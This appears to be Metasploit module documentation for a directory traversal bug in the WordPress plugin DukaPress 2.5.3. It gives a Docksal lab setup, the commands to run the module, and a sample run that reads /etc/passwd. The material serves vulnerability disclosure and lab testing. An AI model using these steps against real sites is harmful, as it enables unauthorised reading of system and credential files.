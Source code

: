 ## Description

This module exploits a directory traversal vulnerability in WordPress Plugin
"DukaPress" version 2.5.3, allowing to read arbitrary files with the
web server privileges.

## Vulnerable Application

### Wordpress with installed DukaPress <= 2.5.3
* [https://wordpress.org/plugins/dukapress](https://wordpress.org/plugins/dukapress)
* [Plugin v2.5.3](https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip)

### Setup using Docksal
Install [Docksal](https://docksal.io/)

Create a new Wordpress installation using `fin project create`

```
fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf-wp

2. What would you like to install?
  PHP based
    1.  Drupal 8
    2.  Drupal 8 (Composer Version)
    3.  Drupal 7
    4.  Wordpress
    5.  Magento
    6.  Laravel
    7.  Symfony Skeleton
    8.  Symfony WebApp
    9.  Grav CMS
    10. Backdrop CMS

  Go based
    11. Hugo

  JS based
    12. Gatsby JS
    13. Angular

  HTML
    14. Static HTML site

Enter your choice (1-14): 4

Project folder:   /home/weh/dev/msf-wp
Project software: Wordpress
Project URL:      http://msf-wp.docksal

Do you wish to proceed? [y/n]: y
Cloning repository...
Cloning into 'msf-wp'...
...
3. Installing site
 Step 1  Initializing stack...
Removing containers...
...
Starting services...
Creating network "msf-wp_default" with the default driver
Creating volume "msf-wp_cli_home" with default driver
Creating volume "msf-wp_project_root" with local driver
Creating volume "msf-wp_db_data" with default driver
Creating msf-wp_db_1  ... done
Creating msf-wp_cli_1 ... done
Creating msf-wp_web_1 ... done
Connected vhost-proxy to "msf-wp_default" network.
Waiting for project stack to become ready...
 Step 2  Initializing site...
 Step 2  Generating wp-config.php...
Success: Generated 'wp-config.php' file.
 Step 3  Installing site...
msmtp: envelope-from address is missing
Success: WordPress installed successfully.

Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download the wordpress plugin

```
cd msf-wp/wp-content/plugins
wget https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip
unzip dukapress.2.5.3.zip

```

Login and click on DukaPress "Activate" Link

```
http://msf-wp.docksal/wp-admin/plugins.php
user: admin
pass: admin
```

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wp_dukapress_file_read```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [IP]```
4. Do: ```run```

## Options

**FILEPATH**

The path to the file to read (default: `/etc/passwd`)

**DEPTH**

Traversal Depth (to reach the root folder) (default: `7`)


## Scenarios

### Wordpress 5.2 running in Docksal

Follow the Instructions above to setup the Docksal Containers.

````
msf5 > use auxiliary/scanner/http/wp_dukapress_file_read
msf5 > set RHOST msf-wp.docksal
RHOST => msf-wp.docksal
msf5 > set VHOST msf-wp.docksal
VHOST => msf-wp.docksal
msf5 > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
docker:x:1000:1000::/home/docker:/bin/bash

[+] File saved in: /home/weh/.msf4/loot/20191009203058_default_192.168.64.100_dukapress.file_560342.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
